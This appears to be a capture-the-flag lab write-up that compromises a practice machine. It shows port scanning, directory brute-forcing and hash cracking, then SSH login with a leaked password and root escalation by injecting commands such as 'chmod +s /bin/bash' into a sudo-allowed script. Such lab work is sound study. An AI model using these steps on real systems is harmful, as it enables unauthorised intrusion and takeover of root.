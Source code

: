 ## Target IP: `10.10.102.53`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.102.53 -oN results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.2p2 |
| 80 | HTTP | Apache httpd 2.4.18 |

---

### Web Enumeration

- Navigated to HTTP page → Apache default page
- Ran directory brute-force:

```bash
gobuster dir -u http://10.10.102.53 -w /usr/share/dirb/wordlists/common.txt
```

**Found Directories:**

- `/admin`
- `/etc`

---

### Exploring `/etc`

- Found file: `passwd`

Contents:

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

- Ran through hash identifier:
    - Type: Apache MD5 (`$apr1$`, md5apr1)
- Found mode on Hashcat site: **1600**

**Cracked with Hashcat:**

```bash
hashcat.exe -m 1600 -a 0 -o cracked.txt hashes.txt rockyou.txt
```

- Password: `[REDACTED]`

---

### Exploring `/admin`

- Found downloadable file: `archive.tar`

```bash
wget http://10.10.102.53/admin/archive.tar
tar -xvf archive.tar
```

- Extracted contents show nested directories:
    
    ```
    /home/field/dev/final_archive
    ```
    
- Found a `readme` stating it's a Borg archive.

---

### Using Borg

- Installed borg:

```bash
sudo apt install borgbackup
```

- Command:

```bash
borg list final_archive
```

- Prompted for password → used `[REDACTED]` (success)

Output:

```
music_archive Tue, 2020-12-29 09:00:38 [...]
```

- Created mount directory:

```bash
mkdir unpacked
borg mount final_archive unpacked
```

*(This mounts the archive so you can browse it like a normal directory. Didn’t fully understand this step—used writeup guidance.)*

---

### Credential Discovery

- Navigated to:
    
    ```
    unpacked/music_archive/home/alex/Documents
    ```
    
- Found `note.txt`:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:[REDACTED]
```

---

### SSH Access

```bash
ssh alex@10.10.102.53
```

- Password: `[REDACTED]`
- Found user flag:

```
flag{[REDACTED]}
```

---

### Privilege Escalation

```bash
sudo -l
```

- Output:

```
(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- Script is not writable (`nano` confirms this)

**Contents of `backup.sh`:**

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt

input="/etc/mp3backups/backed_up_files.txt"

while getopts c: flag
do
    case "${flag}" in
        c) command=${OPTARG};;
    esac
done

backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /they/were/many/more"
dest="/etc/mp3backups/"
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

echo "Backing up $backup_files to $dest/$archive_file"
tar czf $dest/$archive_file $backup_files

cmd=$($command)
echo $cmd
```

- The script accepts `c` as an argument and executes it.

**Executed:**

```bash
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```

- Returned root flag.
```
flag{[REDACTED]}
```

---

### Notes on Alternate Exploit

- Writeup suggests:

```bash
sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

- Didn't work in for me, but worth remembering in case of different configurations.
